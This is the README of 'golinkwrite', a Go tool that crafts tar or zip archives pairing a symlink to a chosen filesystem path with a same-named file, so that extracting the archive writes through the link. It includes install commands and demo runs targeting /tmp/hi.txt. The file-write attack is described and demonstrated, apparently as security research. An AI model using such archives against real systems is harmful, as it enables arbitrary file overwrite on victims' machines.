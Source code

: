 # golinkwrite
Create a tar archive containing a provided file and a symlink that points to the write destination.

The blog post, which describes the background to the rool can be found here: [Link-Write Attack: A sweet combination
](https://blog.nody.cc/posts/link-write-attack/).

## Install

### Build from source

```shell
make install
```

### Fetch latest from GitHub

```shell
$ go install github.com/NodyHub/golinkwrite@latest
```



## Usage

### Help

```shell
$ golinkwrite -h
Usage: golinkwrite <input> <target> <output> [flags]

Create a tar archive containing a provided file and a symlink that points to the write destination.

Arguments:
  <input>     Input file.
  <target>    Target destination in the filesystem.
  <output>    Output file.

Flags:
  -h, --help          Show context-sensitive help.
  -t, --type="tar"    Type of the archive. (tar, zip)
  -v, --verbose       Enable verbose output.
```

### In Action

### Tar

```shell
(main[2]) ~/git/go-link-write% echo 'Hello Alice :wave:!' | tee rabbit_hole.txt
Hello Alice :wave:!

(main[2]) ~/git/go-link-write% golinkwrite -v rabbit_hole.txt /tmp/hi.txt alice.tar
time=2024-09-20T11:52:39.211+02:00 level=DEBUG msg="command line  parameters" cli="{Input:rabbit_hole.txt Target:/tmp/hi.txt Output:alice.tar Type:tar Verbose:true}"
time=2024-09-20T11:52:39.212+02:00 level=DEBUG msg="input permissions" perm=-rw-r--r--
time=2024-09-20T11:52:39.213+02:00 level=DEBUG msg="input size" size=20
time=2024-09-20T11:52:39.213+02:00 level=INFO msg="archive created" output=alice.tar

(main[2]) ~/git/go-link-write% tar ztvf alice.tar
lrw-r--r--  0 0      0           0  1 Jan  1970 rabbit_hole.txt -> /tmp/hi.txt
-rw-r--r--  0 0      0          20  1 Jan  1970 rabbit_hole.txt
```

### Zip

```shell
(main[2]) ~/git/go-link-write% echo 'Hello Alice :wave:!' | tee rabbit_hole.txt
Hello Alice :wave:!

(main[2]) ~/git/go-link-write% golinkwrite -t zip -v rabbit_hole.txt /tmp/hi.txt alice.zip
time=2024-09-20T11:54:12.300+02:00 level=DEBUG msg="command line  parameters" cli="{Input:rabbit_hole.txt Target:/tmp/hi.txt Output:alice.zip Type:zip Verbose:true}"
time=2024-09-20T11:54:12.300+02:00 level=DEBUG msg="input permissions" perm=-rw-r--r--
time=2024-09-20T11:54:12.301+02:00 level=DEBUG msg="input size" size=20
time=2024-09-20T11:54:12.301+02:00 level=INFO msg="archive created" output=alice.zip
(main[2]) ~/git/go-link-write% unzip -l alice.zip
Archive:  alice.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       11  09-20-2024 11:54   rabbit_hole.txt
       20  08-09-2024 19:10   rabbit_hole.txt
---------                     -------
       31                     2 files
```
